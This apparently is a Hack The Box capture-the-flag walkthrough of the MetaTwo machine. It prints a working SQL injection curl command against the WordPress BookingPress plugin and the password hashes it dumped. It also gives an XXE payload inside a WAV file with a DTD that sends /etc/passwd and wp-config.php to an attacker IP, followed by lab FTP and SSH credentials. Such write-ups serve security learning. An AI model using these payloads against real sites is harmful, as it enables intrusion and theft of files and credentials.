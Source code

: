 ```yaml
---
layout: post
title: MetaTwo
published: true
category: CTF
system: linux
walkthrough-type: htb
source: https://app.hackthebox.com/machines/
Description: Exploit bookingpress plugin vulnerability, then a wordpress version vulnerability to find credentials for credentials then get root.
tags: Wordpress, xmlrpc, boookingpress, wordpress, CVE-2021-29447
---
```


Starting off with nmap - `nmap -Pn -p- metatwo.htb -vvvv -oN nmap_initial` 

We find a port 80 webserver trying to redirecto to metapress.htb lets add that to /etc/hosts and check it.

find a login page @ http://metapress.htb/wp-login.php.

we can start off by checking the site with `wpscan`

- `wpscan -e ap --api-token api --url http://metapress.htb -o ~/Documents/htb/MetaTwo/wpscan.2 --plugins-detection mixed`

# Wordpress bookingpress 1.0.11 Unauthenticated SQL Injection

we find a vulnerability in the `/events/` which is the bookingpress plugin. 

- https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

Extract the nonce from the source code of the events page and craft a curl command

- `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=3392862f44&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`

This works and we can also use <a href="https://github.com/hadrian3689/wp_bookingpress_1.0.11/blob/main/sqli.py">this exploit</a> to dump the user credentials.

```
CVE-2022-0739 WordPress BookingPress Plugin< 1.0.11 Unauthenticated SQL Injection

Credentials are:
--------------------------------------------------
Username: admin
Email: admin@metapress.htb
Password: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
--------------------------------------------------
Username: manager
Email: manager@metapress.htb
Password: $P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
--------------------------------------------------
```

Running rockyou for an eternity againse the admin didnt give us anything, and running aginst manager gets us `partylikearockstar` 

# WordPress version 5.6.2 Exploitation

<a href="https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/">Here</a> is a great article explaining the process we will use in the XXE vuln. Basically now that we have credentials we can create a wave file with malicious XML and upload the wave and wordpress will read the metadata and send us back what we want it to read no the system.

We start by generating a WAVE file in bash that contains a payload calling back to the evil.dtd we will setup on attacker

- `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.123:6969/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

then we create evil.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.123:6969/?p=%file;'>" >
```

And start a webserver in the dir. once we upload we should get a callback with the base64 encoded file which we can decode. So this does work, but /etc/passwd and we find a user jnelson. Unfortunately unable to get the user ssh file. So going to look for the wp-config.php file for more information. `/etc/nginx/sites-enabled/default` tells us the blog is in `/var/www/metapress.htb/blog` so lets edit the dtd file to display wp-config.php.

We do find some ftp credentials in here lets check that out

```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

And lets upload a reverse shell. Oh no permissions so looking around we find a php-mailer and checknig inside are jnelson's ssh credentials. 

```
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

# Linux Privesc

Pretty simple, the use has a file with root ssh passwords. cat ssh then su to root
